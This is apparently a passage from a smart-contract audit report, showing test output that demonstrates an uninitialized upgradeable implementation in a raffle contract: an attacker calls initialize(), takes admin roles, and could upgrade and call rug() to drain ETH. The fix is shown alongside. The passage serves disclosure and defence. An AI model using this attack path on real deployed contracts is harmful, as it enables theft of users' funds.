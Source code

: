 **Second: test_InitializeImplementationContract() - Core Vulnerability**
```
=== TEST 1: Attacker Initializes Implementation ===
BEFORE ATTACK:
  Implementation admin: 0x0000000000000000000000000000000000000000
  Is admin address(0)? true

ATTACKER PREPARATION:
  Attacker address: 0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e
  Malicious spin contract: 0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9
  Malicious oracle: 0xaC6bD8e3CAf3cea2dC54f3E591dCeafF2F9c5813

ATTACK EXECUTION:
  Attacker calls initialize() on implementation...
  [SUCCESS] Initialize call succeeded!

ATTACK RESULTS:
  New implementation admin: 0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e
  Attacker has DEFAULT_ADMIN_ROLE? true
  Attacker has ADMIN_ROLE? true
  Implementation spinContract: 0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9

[VULNERABILITY CONFIRMED] Attacker gained full control of implementation!
```

**Third: test_ProperlyInitializedImplementation() - Fix Demonstration**
```
=== TEST 3: Proper Implementation Security ===
DEPLOYING SECURE IMPLEMENTATION:
  Creating SecureRaffle with _disableInitializers()...
  Secure implementation deployed at: 0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9

ATTACK ATTEMPT ON SECURE IMPLEMENTATION:
  Attacker trying to initialize secure implementation...
  [SUCCESS] Attack failed! Initialize call reverted as expected.

[SOLUTION WORKS] Secure implementation prevents unauthorized initialization!
   Fix: Add constructor with _disableInitializers() to implementation
```

**Fourth: test_4_AttackerFinancialImpact() - Critical Financial Risk**
```
=== TEST 4: Financial Impact Demonstration ===
1. Attacker initializes implementation
2. Simulating 1 ETH sent to implementation (user mistake)
   Implementation balance: 1000000000000000000
3. Attacker creates high-value prize worth 1000 ETH
   Prize created: Malicious High-Value Prize
   Prize quantity: 1
4. Attacker manipulates prize status
   Prize deactivated by attacker
   Prize reactivated by attacker
5. CRITICAL FINANCIAL VULNERABILITY DEMONSTRATION
   ETH balance trapped in implementation: 1 ETH
   Attacker has FULL ADMIN CONTROL over this 1 ETH
6. Theft execution capability
   Malicious implementation deployed: 0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9
   Attacker can upgrade via _authorizeUpgrade() (has ADMIN_ROLE)
   Then call rug() to drain all ETH to attacker address
   THIS IS GUARANTEED THEFT - attacker controls upgrade mechanism
8. Attacker disrupts operations by removing prizes
   Prizes remaining after removal: 0

[CRITICAL FINANCIAL IMPACT] 1 ETH AT IMMEDIATE RISK OF THEFT!
   - 1 ETH TRAPPED under attacker's complete admin control
```